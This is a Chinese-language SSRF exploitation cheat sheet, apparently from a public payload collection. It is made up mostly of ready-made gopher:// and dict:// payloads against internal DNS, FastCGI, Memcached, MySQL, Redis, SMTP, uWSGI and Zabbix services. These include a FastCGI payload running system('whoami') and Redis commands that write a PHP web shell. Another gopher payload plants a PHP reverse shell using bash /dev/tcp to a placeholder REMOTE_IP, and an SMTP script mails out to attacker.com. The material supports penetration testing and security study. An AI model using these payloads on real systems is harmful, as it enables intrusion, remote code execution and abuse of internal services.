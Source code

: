 # SSRF 高级利用

> 某些服务（例如 Redis、Elasticsearch）在直接访问时允许无身份验证的数据写入或命令执行。攻击者可以利用 SSRF 与这些服务进行交互，注入恶意负载如 Web Shell 或操纵应用程序状态。

## 概要

* [DNS AXFR](#dns-axfr)
* [FastCGI](#fastcgi)
* [Memcached](#memcached)
* [MySQL](#mysql)
* [Redis](#redis)
* [SMTP](#smtp)
* [WSGI](#wsgi)
* [Zabbix](#zabbix)
* [参考](#参考)

## DNS AXFR

查询内部 DNS 解析器以触发完整的区域传输 (**AXFR**) 并提取子域列表。

```py
from urllib.parse import quote
domain, tld = "example.lab".split('.')
dns_request = b"\x01\x03\x03\x07"    # BITMAP
dns_request += b"\x00\x01"            # QCOUNT
dns_request += b"\x00\x00"            # ANCOUNT
dns_request += b"\x00\x00"            # NSCOUNT
dns_request += b"\x00\x00"            # ARCOUNT
dns_request += len(domain).to_bytes() # LEN DOMAIN
dns_request += domain.encode()        # DOMAIN
dns_request += len(tld).to_bytes()    # LEN TLD
dns_request += tld.encode()           # TLD
dns_request += b"\x00"                # DNAME EOF
dns_request += b"\x00\xFC"            # QTYPE AXFR (252)
dns_request += b"\x00\x01"            # QCLASS IN (1)
dns_request = len(dns_request).to_bytes(2, byteorder="big") + dns_request
print(f'gopher://127.0.0.1:25/_{quote(dns_request)}')
```

对于 `example.lab` 的有效载荷示例：`gopher://127.0.0.1:25/_%00%1D%01%03%03%07%00%01%00%00%00%00%00%00%07example%03lab%00%00%FC%00%01`

```ps1
curl -s -i -X POST -d 'url=gopher://127.0.0.1:53/_%2500%251d%25a9%25c1%2500%2520%2500%2501%2500%2500%2500%2500%2500%2500%2507%2565%2578%2561%256d%2570%256c%2565%2503%256c%2561%2562%2500%2500%FC%2500%2501' http://localhost:5000/ssrf --output - | xxd
```

## FastCGI

需要知道服务器上某个 PHP 文件的完整路径，默认情况下利用的是 `/usr/share/php/PEAR.php`。

```ps1
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/usr/share/php/PEAR.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27whoami%27%29%3F%3E%00%00%00%00
```

## Memcached

Memcached 默认通过端口 11211 进行通信。虽然它主要用于存储序列化数据以增强应用程序性能，但在反序列化这些数据时可能会出现漏洞。

```ps1
python2.7 ./gopherus.py --exploit pymemcache
python2.7 ./gopherus.py --exploit rbmemcache
python2.7 ./gopherus.py --exploit phpmemcache
python2.7 ./gopherus.py --exploit dmpmemcache
```

## MySQL

MySQL 用户不应设置密码保护。

```ps1
$ python2.7 ./gopherus.py --exploit mysql
Give MySQL username: root
Give query to execute: SELECT 123;

gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%0C%00%00%03%53%45%4c%45%43%54%20%31%32%33%3b%01%00%00%00%01
```

## Redis

> Redis 是一种数据库系统，所有数据都存储在内存中

攻击者更改 Redis 的转储目录为 Web 服务器的文档根目录 (`/var/www/html`)，并将转储文件重命名为 `file.php`，确保当数据库保存时会生成一个 PHP 文件。然后创建一个 Redis 键 (`mykey`) 包含 Web Shell 代码，从而通过 HTTP GET 参数实现远程命令执行。最后，`SAVE` 命令强制 Redis 将当前内存数据库写入磁盘，从而在 `/var/www/html/file.php` 处创建恶意 Web Shell。

```ps1
CONFIG SET dir /var/www/html
CONFIG SET dbfilename file.php
SET mykey "<?php system($_GET[0])?>"
SAVE
```

* 使用 `dict://` 获取 WebShell：

    ```powershell
    dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
    dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
    dict://127.0.0.1:6379/SET%20mykey%20"%3C%3Fphp%20system($_GET[0])%3F%3E"
    dict://127.0.0.1:6379/SAVE
    ```

* 使用 `gopher://` 获取 PHP 反向 Shell：

    ```powershell
    gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
    gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
    gopher://127.0.0.1:6379/_set%20payload%20"%3C%3Fphp%20shell_exec(%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27)%3B%3F%3E"
    gopher://127.0.0.1:6379/_save
    ```

## SMTP

恶意行为者可以构造 `gopher://` URL 来操作内部系统的低级协议（如 HTTP 或 SMTP）。

```ps1
gopher://localhost:25/_MAIL%20FROM:<attacker@example.com>%0D%0A
```

以下 PHP 脚本可用于生成重定向到 `gopher://` 负载的页面。

```php
<?php
    $commands = array(
            'HELO victim.com',
            'MAIL FROM: <admin@victim.com>',
            'RCPT To: <hacker@attacker.com>',
            'DATA',
            'Subject: @hacker!',
            'Hello Friend',
            '.'
    );
    $payload = implode('%0A', $commands);
    header('Location: gopher://0:25/_'.$payload);
?>
```

## WSGI

使用 Gopher 协议进行利用，完整利用脚本见 [wofeiwo/webcgi-exploits/uwsgi_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py)。

```powershell
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```

| Header    |           |             |
|-----------|-----------|-------------|
| modifier1 | (1 byte)  | 0 (%00)     |
| datasize  | (2 bytes) | 26 (%1A%00) |
| modifier2 | (1 byte)  | 0 (%00)     |

| Variable (UWSGI_FILE) |           |    |                |
|-----------------------|-----------|----|----------------|
| key length            | (2 bytes) | 10 | (%0A%00)       |
| key data              | (m bytes) |    | UWSGI_FILE     |
| value length          | (2 bytes) | 12 | (%0C%00)       |
| value data            | (n bytes) |    | /tmp/test.py   |

## Zabbix

如果在 Zabbix Agent 配置中启用了 `EnableRemoteCommands=1`，则允许执行远程命令。

```ps1
gopher://127.0.0.1:10050/_system.run%5B%28id%29%3Bsleep%202s%5D
```

## 参考

* [SSRFmap - 引入 AXFR 模块 - Swissky - 2024年6月13日](https://swisskyrepo.github.io/SSRFmap-axfr/)
* [如何在 Jira 中将 SSRF 转换为 XSS - Ashish Kunwar - 2018年6月1日](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
* [Pong [EN] | FCSC 2024 - Arthur Deloffre (@Vozec1) - 2024年4月12日](https://vozec.fr/writeups/pong-fcsc2024-en/)
* [Pong [EN] | FCSC 2024 - Kévin - Mizu (@kevin_mizu) - 2024年4月13日](https://mizu.re/post/pong)